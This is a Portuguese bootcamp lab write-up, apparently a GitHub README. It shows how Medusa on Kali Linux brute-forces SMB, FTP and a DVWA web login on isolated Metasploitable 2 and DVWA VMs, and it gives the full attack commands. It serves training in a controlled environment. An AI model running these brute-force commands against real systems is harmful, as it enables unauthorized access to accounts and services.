







# Projeto Bootcamp DIO Riachuelo Cibersegurança - Simulando um Ataque de Brute Force de Senhas com Medusa e Kali Linux

Este projeto foi desenvolvido como parte do desafio prático da DIO (Digital Innovation One). O objetivo é demonstrar a execução de ataques de força bruta em um ambiente controlado, utilizando o Kali Linux para comprometer serviços de rede no Metasploitable 2.

Ferramentas e Ambiente
Sistema Atacante: Kali Linux (VM)
Alvo: Metasploitable 2 (VM)
Ferramenta: Medusa v2.2
Rede: Host-Only (Isolada)
## Ferramentas e Ambiente

* Sistema Atacante: Kali Linux (VM)
* Alvo: Metasploitable 2 (VM)
* Ferramenta: Medusa v2.2
* Rede: Host-Only (Isolada)

## Estrutura do projeto

 - [/wordlist](https://github.com/derso87/Projeto-DIO/tree/main/wordlists) : Wordlist Usuarios e Senhas
 - [/images](https://github.com/derso87/Projeto-DIO/tree/main/images) : Print's das telas
 - [/scripts](https://github.com/derso87/Projeto-DIO/tree/main/scripts) : Script para automação

## Execução

## 1 - Wordlists

Comecei criando as wordlists usuario.txt e senhas.txt

## 2. Ataque ao Serviço SMB (Portas 139/445)

Utilizei o módulo smbnt do Medusa para realizar o brute force contra o serviço de compartilhamento de arquivos.

Comando: medusa -h 192.168.56.101 -U usuarios.txt -P senhas.txt -M smbnt
Resultado (Senha Encontrada):

Validação do Acesso: Após encontrar a senha, validei o acesso listando os compartilhamentos do servidor.

Comando: smbclient -L //192.168.56.101/ -U msfadmin

## 3. Ataque ao Serviço FTP (Porta 21)

O mesmo processo foi aplicado ao protocolo FTP para demonstrar a vulnerabilidade em múltiplos serviços.

Resultado (Senha Encontrada):
Comando: medusa -h 192.168.56.101 -U usuarios.txt -P senhas.txt -M ftp

Validação do Acesso: Login realizado com sucesso no servidor de arquivos via terminal.

Comando: ftp 192.168.56.101

## 4. Ataque a Aplicação Web (DVWA)

O Medusa também foi utilizado para realizar o brute force no formulário de login do DVWA.

Comando: medusa -h 192.168.56.102 -U usuarios.txt -P senhas.txt -M http \ -m PAGE: "/dvwa/login.php" \ -m FORM: "username=^USER^&password=^PASS^&Login=Login" \ -m "FAIL=Login failed" -t 6
Resultado Medusa Web:

Login Efetuado com Sucesso:

